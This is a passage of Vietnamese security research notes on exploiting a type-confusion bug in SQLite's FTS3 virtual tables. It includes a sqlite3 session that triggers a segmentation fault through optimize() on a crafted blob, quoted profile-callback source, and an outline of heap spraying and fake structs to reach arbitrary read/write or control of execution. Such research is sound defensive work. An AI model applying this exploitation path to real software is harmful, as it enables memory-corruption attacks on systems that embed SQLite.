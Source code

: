 ```c
    ...
}
```

### 14.2. FTS3 Tricks
- Virtual table có `xColumn(sqlite3_vtab_cursor*, sqlite3_context*, int N)` tùy biến.
- FTS3 cho phép **tên bảng** như **tên cột**; vài hàm nhận **tên bảng** làm đối số đầu tiên.  
  Ví dụ: `SELECT optimize(t) FROM t LIMIT 1;`

### 14.3. Ví dụ thực nghiệm Type Confusion
```text
SQLite version 3.14.0 2016-07-26 15:17:14
sqlite> create virtual table a using fts3(b);
sqlite> insert into a values(x'4141414142424242');
sqlite> select hex(a) from a;
C854D98F08560000
sqlite> select optimize(b) from a;
[1]    37515 segmentation fault  sqlite3
```

---

## 15. `invokeProfileCallback` và các đối số có thể kiểm soát
```c
static SQLITE_NOINLINE void invokeProfileCallback(sqlite3 *db, Vdbe *p){
   sqlite3_int64 iNow;
   sqlite3_int64 iElapse;
   ...
   sqlite3OsCurrentTimeInt64(db->pVfs, &iNow);
   iElapse = (iNow - p->startTime)*1000000;
   if( db->xProfile ){
     db->xProfile(db->pProfileArg, p->zSql, iElapse);
   }
   if( db->mTrace & SQLITE_TRACE_PROFILE ){
     db->xTrace(SQLITE_TRACE_PROFILE, db->pTraceArg, p, (void*)&iElapse);
   }
   p->startTime = 0;
}
```
Ý tưởng: Có những callback (profile/trace) nhận **đối số** từ cấu trúc `db`/`p`, đôi khi có thể bị ảnh hưởng trong chuỗi khai thác.

---

## 16. Hướng khai thác tổng quát
1. **Heap spray** (JS/ArrayBuffer hoặc tương đương) để có vùng nhớ **kiểm soát**.
2. Dựng **fake struct** (`Fts3Cursor`, `Fts3Table`, …) trong vùng đã spray.
3. Dẫn luồng qua các **code path** như `optimize/offsets/matchinfo()` để đạt **arbitrary read/write** hoặc **PC control**.

---
